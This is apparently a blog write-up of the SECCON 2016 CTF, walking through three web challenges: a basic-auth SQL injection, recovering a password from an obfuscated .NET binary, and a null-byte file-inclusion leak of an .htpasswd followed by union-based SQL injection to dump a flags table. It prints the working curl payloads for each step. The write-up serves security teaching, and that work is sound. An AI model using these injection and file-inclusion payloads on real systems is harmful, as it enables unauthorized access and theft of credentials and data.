 ```yaml
---
title: "SECCON 2016"
date: 2016-12-11T14:01:20.000Z
tags:
  - "ctf"
feature_image: "content/images/2016/12/Zrzut-ekranu-2016-12-11-o-08.20.28.webp"
---
```


# SECCON 2016

Yesterday (actually it has just finished today at 7 AM CET) there was a 24h SECCON CTF. We did took part in it, collected 5100 pts and came 6th.

Here are the tasks I've solved.

## basiq - Web 100

> basiq
>  What is admin's password?☺
>  <http://basiq.pwn.seccon.jp>

When we enter the given site we can see that it's some kind of core racing site.

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-08.26.21.webp)

We can see a login panel and signup button. We can even create an account and log-in. Ok, but we should try to get admin's password.

If we check [client.js](http://basiq.pwn.seccon.jp/javascripts/client.js) we can see line like this
[code]
    if(loginuser == 'admin'){
    	links.push({label:'Admin', href:'/admin/'});
    }

[/code]

let's try to access it then. In the browser we are asked for the basic authentication. Let's switch to the console

`curl -u "admin:' or 1=1#" -v http://basiq.pwn.seccon.jp/admin`

and we are in. Ok, but we need to extract user password as the description says. To do that I've took a similar approach as in [ECMS 2016 CTF](https://ctfs.ghost.io/ecms-2016-ctf/) (Password extraction) and create a little script. The difficult part was to find out the column names but the error messaged gave them away.

[View Gist](https://gist.github.com/pawlos/6536bc23890e17dd982df0908fe29784)

I first time I run it it reported that the admin's password is 5 chars long and it's 12345! I was a little shocked but anyway tried those on the webpage I got this.

![](content/images/2016/12/Zrzut-ekranu-2016-12-10-o-10.02.57.webp)

So a little bit more encouraged I've tried this as a flag. Wrong! Also tried with `SECCON{}` around but also no luck.

I've contacted the orgs an informed about it. They informed that the flag should already by in the form of SECCON{} but they agree that the page is behaving strange. They needed to fix it.

After few minutes it was working again according to the orgs. I've run my script again and this time it reported something more meaningful. A password of 16 chars and the first char extracted was S so it might be the correct one. After few more iteration I go the whole password - `SECCON{CARNIVAL}` but again the system reported incorrect flag. WTF!

I've contacted the orgs again and was informed that the password is case-sensitive but I was a bit annoying that it's the second time I got info that I should pass it as a flag and the system rejected it. After some discussion I got a confirmation that the flag for this should be case-insensitive so orgs changed it and then it was accepted.

flag: `SECCON{CARNIVAL}`

Later in the competition it was announced that someone has registered a fake `admin` account. Maybe that was the `12345` password I was getting in the first try.

One observation - it was painfully slow to work with this challenge. I don't know whether it was all the CGIs that were used or I should get some VM in Japan and try to attack from there. Anyway the flag was obtained.

## pppppoxy - Web 200

> pppppoxy

> Log in as admin and get the flag
>  [pppppoxy.zip]().

It's a bit strange web task as we were given an .NET assembly. When I run it a web page was opened

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-10.10.10.webp)

since it's .NET let's open it in the best .NET disassembler - [dnSpy](https://github.com/0xd4d/dnSpy).

Unfortunately the exe is obfuscated.

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-13.14.01.webp)

That should not stop us though. dnSpy allows debugging so let's put a breakpoint in the Main method (strange that name was not obfuscated - it could be) and let's step through. It does a bit of loading but eventually we end up in:

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-14.00.58.webp)

And after few steps further we clearly see that MD5 is calculated from our entry and compared with MD5 calculated from string: `-40.01.6102 ,ikazamaY ogieK© thgirypoC`

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-13.58.56.webp)

if we pass the above string as a password we get the flag.

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-14.01.40.webp)

flag: `SECCON{D5691FB40B2AF60CA78DA78AC65A71E2}`

## uncomfortable web - Web 300

> uncomfortable web
>  Attack to <http://127.0.0.1:81/authed/> through the uploaded script at <http://uncomfortableweb.pwn.seccon.jp/>.
>  Get the flag in the database!

When we go to <http://uncomfortableweb.pwn.seccon.jp/> we get this form:

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-01.00.05.webp)

when we investigate the examples it looks like we can write them as a shell script, perl or python.

We try a basic one:

`curl http://127.0.0.1:81`

and get in response

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-14.12.08.webp)

let's display `select.cgi`

`curl http://127.0.0.1:81/select.cgi`

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-14.13.41.webp)

with this form we can display files `a` and `b` but they do not help much. Lets see if the form is vulnerable to LFI.

Let's execute this

`curl http://127.0.0.1:81/select.cgi?txt=.htaccess%00`

it did work and we gain additional info

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-14.26.24.webp)

additionally from `.htpasswd`

`keigo:LdnoMJCeVy.SE`

that corresponds to password `test`.

Lets access the main area of our interest.

`curl -u keigo:test http://127.0.0.1:81/authed/`

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-14.44.30.webp)

and further into `sqlinj`

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-14.46.05.png)

we see there 100 cgi files that on first look they all behave the same. Let's see if that's truly the case

`curl curl -u keigo:test http://127.0.0.1:81/authed/sqlinj/[1-100].cgi?no=%27`

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-14.48.42.webp)

for the `72.cgi` we do not get the same output - </body></html> is missing from the output. From that we test it and verify that `72.cgi` is vulnerable to sqli. Let's try to obtain some more info

`curl -v -s -u keigo:test "http://127.0.0.1:81/authed/sqlinj/72.cgi?no=%27%20union%20SELECT%20name,sql,1%20FROM%20sqlite_master--"`

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-14.51.31.webp)

and from that we get the flag!

`curl -v -s -u keigo:test "http://127.0.0.1:81/authed/sqlinj/72.cgi?no=%27%20union%20SELECT%20f1ag,1,1%20FROM%20f1ags--"`

flag: `SECCON{I want to eventually make a CGC web edition... someday...}`

## Scoreboard

The final Top 10 scoreboard

![](content/images/2016/12/Zrzut-ekranu-2016-12-11-o-15.00.29.webp)

Congrats to all!
